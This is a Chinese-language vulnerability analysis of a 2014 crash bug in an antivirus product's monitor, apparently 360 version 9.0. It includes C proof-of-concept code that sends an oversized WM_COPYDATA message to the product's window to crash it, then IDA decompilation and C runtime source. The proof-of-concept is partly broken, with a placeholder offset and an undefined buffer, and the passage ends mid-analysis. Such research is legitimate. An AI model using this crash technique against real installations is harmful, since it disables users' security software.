

2014年 . 某杀软9.0版本 的溢出漏洞


首先看一下paylaod代码

```c
#include<windows.h>
int main()
{
    HMODULE h360 =GetModuleHandleA(TEXT("safemon.dll"));
    if(h360)
    {
        //句柄获取方式一
        FARPROC f ncGet360HWND = (FARPROC)((BYTE*)h360+某个偏移);
        HWND hWnd = (HWND)funcGet360HWND(); //获取通过调用那一处的函数而获取某个句柄

         //句柄获取方式二
        HWND hWnd =FindWindowA("Q360SafeMonClass",NULL);

        COPYDATASTRUCT cpdata;
        cpdata.dwData = 0x4d47534d;
        cpdata.cbData = 0x1000;
        cpdata.lpData = msgbuf;  //长度0x1000字节的随即数据，其中不能有连续\x00\x00,可以用HxD生成
        SendMessage(hWnd, WM_COPYDATA, NULL,(LPARAM)&cpdata);
    }
}
```

原理是通过缓冲区溢出导致进程崩溃


具体在哪里缓冲区溢出的

经过调试发现，导致360出错退出的地方在360safemonpro.tpi这个模块里inline编译的vsnwprintf，从这里调用：



IDA里面的代码：

```c
int sub_10012240(wchar_t *Format, ...)
{
  int v1; // eax@1
  wchar_t Dest; // [sp+0h] [bp-1000h]@1
  __int16 v4; // [sp+FFEh] [bp-2h]@4
  va_list va; // [sp+1008h] [bp+8h]@1

  va_start(va, Format);
  v1 = vsnwprintf(&Dest, 0x7FFu, Format, va);
  if ( v1 < 0 || (unsigned int)v1 > 0x7FF || v1 == 2047 )
    v4 = 0;
  sub_10013670();
  return sub_10012BC0(&Dest);
}
```

对应的源代码是：

```c
output.c
/*textlen now contains length in multibyte chars */
} 
else
{
    if(text.wz== NULL) /* NULLpassed, use special string */
    text.wz = __wnullstring;
    bufferiswide= 1;
    pwch= text.wz;
    while(i– && *pwch)  //这里出错了
    ++pwch;
    textlen= (int)(pwch- text.wz);       /* in wchar_ts*/
    /*textlen now contains leng
    th in wide chars */
}
```

看起来360的用法是没有错的，这里不存在溢出之类的漏洞，